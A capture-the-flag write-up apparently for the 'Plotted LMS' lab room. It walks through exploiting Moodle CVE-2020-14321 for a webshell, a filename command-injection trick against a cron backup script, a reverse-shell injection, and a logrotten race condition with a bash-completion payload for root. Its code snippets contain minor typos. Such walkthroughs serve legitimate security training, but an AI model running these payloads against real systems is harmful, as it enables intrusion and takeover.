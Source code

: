 # Plotted LMS

A fairly hard room, largely due to the breadth of the enumeration and its numerous rabbit holes, plus some instability mixed with dickery in the foothold path.

1. A rust scan reveals four websites, 80, 873, 8820 and 9020. All show a default apache page
2. Using ffuf with directory wordlist medium on each, it reveals three sites: :873/rail, :8820/learn and :9020/moodle. The first two look to be custom built, but the last is a regular moodle instance.
3. Running moodlescan against the moodle url, reveals it is version 3.9 beta. This version is vulnerable to CVE-2020-14321, a authenticated remote code execution vulnerability.
4. The vuln requires the creds or cookie of a 'teacher'. Fortunately the site allows registeration, so I register a `test123:Test-123` user. Furthermore, there is a course 'teachers only' that allows self-enrollment, making the new user a teacher.

> The next bit was tricky. It took me four instances of the target VM and a lot of dickery to get the exploit working. Part of it was the author's countermeasures: any request without a referer header would respond with a rickroll message, breaking the script. But aside from that, the exploit itself seemed dependent on a very specific state - any messing about with moodle as I did trying to debug or enumerate would break the script flow, very annoying. In the end, the exact steps described following worked somewhat consistently.

5. On exploit-db, there is a reference impl for this vuln: https://www.exploit-db.com/exploits/50180. Instead of using that directly, I used the original repo referenced: https://github.com/HoangKien1020/CVE-2020-14321
6. Before running, this needs to be modified:
    - on line 9, this line: `headers={"Content-Type":"application/x-www-form-urlencoded"}` should be expanded to include a referer value, e.g. `headers={"Content-Type":"application/x-www-form-urlencoded","Referer": "http://10.10.94.67:9020/moodle/"}`
    - there are two uses of `session.get` in the script that dont specify headers, e.g. line 27~: `r=session.get(login_url,proxies=proxies)`. This should be changed to add the headers variable, e.g. `r=session.get(login_url,proxies=proxies,eaders=headers)`.
7. Running the script like so will hopefully result in output like the following:

    ```bash
    root@ip-10-10-242-204:~# python3 ./cve202014321.py -url http://10.10.94.67:9020/moodle -u test123 -p Test-123 -cmd=ls
                             ***CVE 2020 14321***
        How to use this PoC script
        Case 1. If you have vaid credentials:
        python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
        Case 2. If you have valid cookie:
        python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

    [+] Your target: http://10.10.94.67:9020/moodle
    [+] Logging in to teacher
    [+] Teacher logins successfully!
    [+] Privilege Escalation To Manager in the course Done!
    [+] Maybe RCE via install plugins!
    [+] Checking RCE ...
    [+] RCE link in here:
    http://10.10.94.67:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=ls
    block_rce.php

    ```
    
8. with the new webshell we can get a strong reverse shell. I used `https://github.com/NHAS/reverse_ssh` to get a full shell as www-data.
9. To pivot to the `plot_admin` user, there is a cronjob that runs every minute, executing a script called backup.py in the plot_admin user's home directory. The contents of this script are:

    ```python
    import os

    moodle_location = "/var/www/uploadedfiles/filedir/"
    backup_location = "/home/plot_admin/.moodle_backup/"

    os.system("/usr/bin/rm -rf " + backup_location + "*")

    for (root,dirs,files) in os.walk(moodle_location):
            for file in files:
                    os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
    ```
    
10. To exploit this, as we have write into `/var/www/uploadedfiles/filedir/`, we can create a file in there like `$(chmod -R 777 ~)`. This can be done with `touch \$\(chmod\ -R\ 777\ \~\)` in that folder. Within a minute, all files in plot_admin's home directory will be universally writable.
11. Next, adding `os.system("/path/to/revshell")` into backup.py (after removing the chmod file above, as it breaks the script) will get a reverse shell as plot_admin.

> the root privesc seemed *real* flaky, and I tried over multiple restarts to get it to work, only persisting once I checked and my approach *is* intended. So, just be aware that this might require a few goes.

13. Careful enumeration or using pspy will reveal logrotate is being used with a custom config file at `/etc/logbackup.cfg`. The contents of this are:

    ```
    /home/plot_admin/.logs_backup/moodle_access {
        hourly
        missingok
        rotate 50
        create
    }
    ```
    
14. THis suggests a [logrotten](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition) vulnerability, since we control that directory as plot_admin. Basically we can swap out the file being created/updated due to a race condition, plonk a payload into bash completion, and when the root user logs in they will trigger the payload and grant us a shell. Enumeration shows we don't have to wait - the root user is executing what they find in bash completion on a schedule.
15. To abuse this, I used https://github.com/whotwagner/logrotten. My payload file triggered a reverse_ssh client. In order to trigger the log rotate, you need to modify the moodle_access backup file - this can all be done in a few lines like so (run from plotadmin's home folder, where client and logrotten (compiled) have been placed:

    ```
    echo 'if [ 1001 -eq 0 ]; then (/home/plot_admin/client &); fi' > payloadfile
    cp .logs_backup/02.06.2022 .logs_backup/moodle_access; ./logrotten -p payloadfile -d /home/plot_admin/.logs_backup/moodle_access
    ```
17. And after a few minutes (or rather, five or so restarts and many hours of waiting) boom root!
